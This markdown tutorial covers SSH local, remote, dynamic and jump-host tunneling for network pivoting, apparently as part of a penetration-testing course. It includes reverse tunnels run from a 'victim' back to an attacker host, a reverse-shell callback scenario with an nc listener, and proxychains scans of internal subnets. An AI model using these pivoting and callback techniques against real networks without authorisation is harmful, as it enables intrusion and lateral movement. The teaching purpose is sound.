

# 🔐 SSH Tunneling Deep Dive

> **Level: 🟢 Beginner → 🟡 Intermediate**
> Master every type of SSH tunneling — the most fundamental skill for network pivoting.

---

## 📖 Table of Contents

1. [Why SSH Tunneling?](#-1-why-ssh-tunneling)
2. [SSH Local Port Forwarding (-L)](#-2-ssh-local-port-forwarding--l)
3. [SSH Remote Port Forwarding (-R)](#-3-ssh-remote-port-forwarding--r)
4. [SSH Dynamic Port Forwarding (-D)](#-4-ssh-dynamic-port-forwarding--d)
5. [SSH Jump Hosts / ProxyJump (-J)](#-5-ssh-jump-hosts--proxyjump--j)
6. [Chaining SSH Tunnels](#-6-chaining-ssh-tunnels)
7. [SSH Flags Reference](#-7-ssh-flags-reference)
8. [Troubleshooting SSH Tunnels](#-8-troubleshooting-ssh-tunnels)
9. [Practice Scenarios](#-9-practice-scenarios)

---

## 🧠 1. Why SSH Tunneling?

SSH tunneling is the most common pivoting technique because:

| Reason | Details |
|--------|---------|
| **SSH is everywhere** | Most Linux servers have it running |
| **Encrypted** | All traffic is encrypted through the tunnel |
| **Built-in** | No extra tools needed to install |
| **Flexible** | Local, remote, and dynamic forwarding options |
| **Battle-tested** | Oldest and most reliable pivoting method |

### The Three Types at a Glance



---

## 🟢 2. SSH Local Port Forwarding (-L)

### What It Does

Opens a port **on your attacker machine** that tunnels traffic through an SSH connection to a target.

### Diagram

```
YOUR MACHINE (Kali)              PIVOT (SSH Server)             TARGET (Internal)
┌─────────────────┐             ┌─────────────────┐            ┌─────────────────┐
│                 │   SSH Tunnel│                 │            │                 │
│ localhost:8080 ─┼────────────→│  SSH on :22     ├───────────→│  Web on :80     │
│ (listen port)   │  encrypted  │                 │  internal  │  10.10.10.5     │
│                 │             │  192.168.1.10   │  network   │                 │
└─────────────────┘             └─────────────────┘            └─────────────────┘

You browse: http://localhost:8080 → Actually reaches 10.10.10.5:80
```

### Command

```bash
ssh -L 8080:10.10.10.5:80 user@192.168.1.10
```

### Syntax Breakdown

```
ssh -L [local_port]:[target_host]:[target_port] [user]@[pivot_host]
         ▲              ▲              ▲              ▲
         │              │              │              │
    Port on YOUR    Internal IP    Port on the    SSH server
    machine to      of the final   final target   you connect
    listen on       target                        through
```

### Step-by-Step Example

**Scenario**: Access an internal web app (10.10.10.5:80) through compromised host (192.168.1.10)

```bash
# Step 1: Create the tunnel
ssh -L 8080:10.10.10.5:80 user@192.168.1.10

# Step 2: Now access the internal web app from your browser
# Visit: http://localhost:8080

# Step 3: Or use curl
curl http://localhost:8080
```

### Multiple Local Forwards

Forward multiple ports at once:

```bash
ssh -L 8080:10.10.10.5:80 \
    -L 3306:10.10.10.5:3306 \
    -L 445:10.10.10.20:445 \
    user@192.168.1.10
```

Now you have:
- `localhost:8080` → Internal web server
- `localhost:3306` → Internal MySQL
- `localhost:445` → Internal SMB share

### Background Mode (No Shell)

Run the tunnel in the background without an interactive shell:

```bash
ssh -L 8080:10.10.10.5:80 -N -f user@192.168.1.10
```

| Flag | Meaning |
|------|---------|
| `-N` | Don't execute any remote command (just tunnel) |
| `-f` | Go to background after authentication |

### When to Use Local Forwarding

- ✅ You have SSH access to the pivot
- ✅ You want to access a **specific internal service**
- ✅ You know the internal target IP and port
- ✅ You want encrypted access

---

## 🔴 3. SSH Remote Port Forwarding (-R)

### What It Does

Opens a port **on the remote SSH server (pivot)** that tunnels traffic back to your machine or a target you can reach. This is a **reverse tunnel**.

### Diagram

```
YOUR MACHINE (Kali)              PIVOT (SSH Server)             ANYONE CONNECTING
┌─────────────────┐             ┌─────────────────┐            ┌─────────────────┐
│                 │   SSH Tunnel│                 │            │                 │
│  Web on :80    ←┼────────────┤  :9090 (listen) ←┼───────────┤  Connects to    │
│  (your service) │  encrypted  │                 │            │  pivot:9090     │
│                 │             │  192.168.1.10   │            │                 │
└─────────────────┘             └─────────────────┘            └─────────────────┘

Someone connects to pivot:9090 → Gets tunneled back to your machine:80
```

### Command

```bash
ssh -R 9090:127.0.0.1:80 user@192.168.1.10
```

### Syntax Breakdown

```
ssh -R [remote_port]:[target_host]:[target_port] [user]@[pivot_host]
         ▲                ▲              ▲              ▲
         │                │              │              │
    Port on the      Address the    Port on the    SSH server
    REMOTE machine   remote host    target host    to connect to
    to listen on     connects to    to forward to
```

### When to Use Remote Forwarding

**Scenario 1: No Direct SSH to Pivot**

You have a **shell** on a victim (not via SSH), and you want to create a tunnel back to your machine:

```bash
# From the VICTIM machine (reverse connection back to you)
ssh -R 4444:127.0.0.1:4444 attacker@10.0.0.5
```

Now the attacker machine's port 4444 is accessible on the victim.

**Scenario 2: Expose Your Tool to the Internal Network**

You're running a tool locally (like a web server for file transfer):

```bash
# Expose your local HTTP server (port 80) on the pivot's port 9090
ssh -R 9090:127.0.0.1:80 user@192.168.1.10
```

Now internal machines can download files from `pivot:9090`.

### Important: GatewayPorts

By default, `-R` only binds to `127.0.0.1` on the remote side. To allow other machines to connect:

The SSH server must have this in `/etc/ssh/sshd_config`:
```
GatewayPorts yes
```

Or use:
```bash
ssh -R 0.0.0.0:9090:127.0.0.1:80 user@192.168.1.10
```

---

## 🟡 4. SSH Dynamic Port Forwarding (-D)

### What It Does

Creates a **SOCKS proxy** on your machine. Any application configured to use this SOCKS proxy will route all its traffic through the SSH tunnel — accessing **any** host/port the pivot can reach.

### This is the Most Powerful SSH Tunnel Type!

### Diagram

```
YOUR MACHINE (Kali)              PIVOT (SSH Server)             INTERNAL NETWORK
┌─────────────────┐             ┌─────────────────┐            ┌─────────────────┐
│                 │   SSH Tunnel│                 │            │ 10.10.10.5:80   │
│ SOCKS :9050    ─┼────────────→│                 ├───────────→│ 10.10.10.5:3306 │
│ (proxy)         │  encrypted  │  192.168.1.10   │  can reach │ 10.10.10.20:445 │
│                 │             │                 │  ANY host  │ 10.10.10.100:22 │
└─────────────────┘             └─────────────────┘            └─────────────────┘

proxychains nmap 10.10.10.0/24 → Scans the ENTIRE internal network
```

### Command

```bash
ssh -D 9050 user@192.168.1.10
```

### How to Use the SOCKS Proxy

#### Option 1: proxychains

Edit `/etc/proxychains4.conf`:
```
[ProxyList]
socks5 127.0.0.1 9050
```

Then prepend `proxychains` to any command:
```bash
proxychains nmap -sT -Pn 10.10.10.5
proxychains curl http://10.10.10.5
proxychains firefox
```

#### Option 2: Firefox Manual Proxy

1. Firefox → Settings → Network Settings → Manual proxy configuration
2. SOCKS Host: `127.0.0.1` | Port: `9050`
3. Select SOCKS v5
4. Check "Proxy DNS when using SOCKS v5"

#### Option 3: curl with SOCKS proxy

```bash
curl --socks5 127.0.0.1:9050 http://10.10.10.5
```

### Background SOCKS Proxy

```bash
ssh -D 9050 -N -f user@192.168.1.10
```

### Nmap Through SOCKS (Important Notes!)

```bash
# MUST use -sT (TCP connect scan) — SYN scan won't work through SOCKS
# MUST use -Pn (skip ping) — ICMP doesn't work through SOCKS
proxychains nmap -sT -Pn -p 80,443,445,3389 10.10.10.5
```

> ⚠️ **SOCKS proxies only support TCP**. ICMP (ping), UDP, and SYN scans will NOT work through a SOCKS proxy!

### SOCKS Limitations

| Works ✅ | Doesn't Work ❌ |
|----------|----------------|
| TCP connections | ICMP (ping) |
| HTTP/HTTPS requests | UDP (most DNS, SNMP) |
| nmap `-sT` (TCP connect) | nmap `-sS` (SYN scan) |
| SSH, SMB, RDP | SYN-based OS detection |
| curl, wget | Traceroute |

---

## 🔵 5. SSH Jump Hosts / ProxyJump (-J)

### What It Does

Allows you to SSH through one or more intermediate hosts to reach a final target. The intermediate hosts are called **jump hosts** or **bastion hosts**.

### Diagram

```
ATTACKER → Jump Host 1 → Jump Host 2 → Final Target
                 (transparent — you establish one SSH session)
```

### Command

```bash
# Single jump host
ssh -J user1@jump-host user2@final-target

# Multiple jump hosts
ssh -J user1@jump1,user2@jump2 user3@final-target
```

### SSH Config File Method

Edit `~/.ssh/config`:

```
Host jump-host
    HostName 192.168.1.10
    User admin

Host internal-server
    HostName 10.10.10.5
    User root
    ProxyJump jump-host
```

Now simply:
```bash
ssh internal-server
```

### Combining with Port Forwarding

```bash
# Jump through pivot, then set up local forward to internal target
ssh -J user@pivot -L 8080:10.10.10.5:80 user@10.10.10.5
```

### Old Method (ProxyCommand)

Before `-J`, you had to use:
```bash
ssh -o ProxyCommand="ssh -W %h:%p user@jump-host" user@final-target
```

`-J` is the modern, cleaner equivalent.

---

## 🔗 6. Chaining SSH Tunnels

### Scenario: Double Pivot via SSH

```
ATTACKER → PIVOT 1 (192.168.1.10) → PIVOT 2 (10.10.10.5) → TARGET (172.16.1.50)
```

### Method 1: Nested SSH Tunnels

```bash
# Step 1: Tunnel from Attacker through Pivot 1 to reach Pivot 2's SSH
ssh -L 2222:10.10.10.5:22 user@192.168.1.10

# Step 2 (new terminal): Tunnel through Pivot 2 to reach Target
ssh -L 8080:172.16.1.50:80 -p 2222 user@localhost

# Step 3: Access the target
curl http://localhost:8080
# This reaches 172.16.1.50:80 through two pivots!
```

### Method 2: ProxyJump

```bash
ssh -J user@192.168.1.10,user@10.10.10.5 -L 8080:172.16.1.50:80 user@172.16.1.50
```

### Flow Visualization


---

## 📋 7. SSH Flags Reference

### Essential Flags for Tunneling

| Flag | Meaning | Example |
|------|---------|---------|
| `-L port:host:port` | Local port forwarding | `-L 8080:10.10.10.5:80` |
| `-R port:host:port` | Remote (reverse) port forwarding | `-R 9090:127.0.0.1:80` |
| `-D port` | Dynamic port forwarding (SOCKS proxy) | `-D 9050` |
| `-N` | No remote command (tunnel only) | Used with `-L`, `-R`, `-D` |
| `-f` | Go to background after auth | Run tunnel without occupying terminal |
| `-J host` | Jump host / ProxyJump | `-J admin@bastion` |
| `-p port` | Connect to SSH on non-standard port | `-p 2222` |
| `-i key` | Use specific identity/key file | `-i ~/.ssh/id_rsa` |
| `-v` | Verbose (debugging) | Add more `v`s for more: `-vvv` |
| `-C` | Enable compression | Useful on slow links |
| `-o` | Pass SSH options | `-o StrictHostKeyChecking=no` |

### Common Flag Combinations

```bash
# Background tunnel, no shell, verbose
ssh -L 8080:10.10.10.5:80 -N -f -v user@pivot

# SOCKS proxy, background, no shell
ssh -D 9050 -N -f user@pivot

# Jump through bastion with local forward
ssh -J user@bastion -L 3306:db-server:3306 user@db-server

# Reverse tunnel, background
ssh -R 4444:127.0.0.1:4444 -N -f user@attacker-ip
```

---

## 🔧 8. Troubleshooting SSH Tunnels

### Common Issues and Fixes

| Problem | Cause | Fix |
|---------|-------|-----|
| "Connection refused" on local port | Tunnel not established / target port closed | Check SSH connection is alive, verify target port |
| "Address already in use" | Port already used on local machine | Use a different local port or `kill` the old tunnel |
| "Permission denied" binding port < 1024 | Need root for low ports | Use port > 1024 or run with `sudo` |
| Tunnel connects but no data | Target firewall blocking | Check target firewall rules |
| "channel: open failed" | Pivot can't reach target | Verify pivot can `ping`/`nc` the target |
| SOCKS proxy not working | Wrong proxy settings | Verify proxychains config, port number |
| Nmap through proxy fails | Using SYN scan | Use `-sT -Pn` with proxychains |

### Debugging Commands

```bash
# Check if local port is listening
ss -tlnp | grep 8080          # Linux
netstat -an | findstr 8080     # Windows

# Test connectivity through tunnel
curl -v http://localhost:8080

# Verbose SSH for debugging
ssh -L 8080:10.10.10.5:80 -vvv user@pivot

# Check SSH tunnel process
ps aux | grep ssh

# Kill a backgrounded SSH tunnel
kill $(pgrep -f "ssh -D 9050")
```

---

## 🧪 9. Practice Scenarios

### Scenario 1: Local Forward to Internal Web App

```bash
# Setup: Pivot has SSH, internal server has web app on port 80
ssh -L 9090:10.10.10.5:80 -N -f user@pivot
curl http://localhost:9090
```

### Scenario 2: Reverse Shell Callback

```bash
# Attacker starts listener
nc -lvp 4444

# On victim, create reverse tunnel to expose attacker's listener
ssh -R 4444:127.0.0.1:4444 -N -f attacker@10.0.0.5

# Now another internal host can connect to victim:4444
# and the traffic goes back to attacker's nc listener
```

### Scenario 3: Full SOCKS Proxy + Internal Nmap Scan

```bash
# Create SOCKS proxy
ssh -D 9050 -N -f user@pivot

# Configure proxychains
echo "socks5 127.0.0.1 9050" >> /etc/proxychains4.conf

# Scan internal network
proxychains nmap -sT -Pn -p 22,80,443,445,3389 10.10.10.0/24
```

### Scenario 4: Jump Host to Deep Internal

```bash
# Reach a database server 3 hops deep
ssh -J admin@dmz,admin@app-server -L 5432:db-server:5432 dba@db-server

# Connect to PostgreSQL
psql -h localhost -p 5432 -U dba
```

---

## 🔑 Key Takeaways

| Type | Flag | Direction | Use Case |
|------|------|-----------|----------|
| **Local** | `-L` | You → Pivot → Target | Access internal service |
| **Remote** | `-R` | Target → Pivot → You | Expose your service to internal net |
| **Dynamic** | `-D` | You → Pivot → Anywhere | SOCKS proxy, scan entire network |
| **Jump** | `-J` | You → Hop → Hop → Target | Multi-hop SSH through bastions |

---

## ⏮️ [← Port Redirection Fundamentals](./01_port_redirection_fundamentals.md) | ⏭️ [Chisel Tunneling →](./03_chisel_tunneling.md)
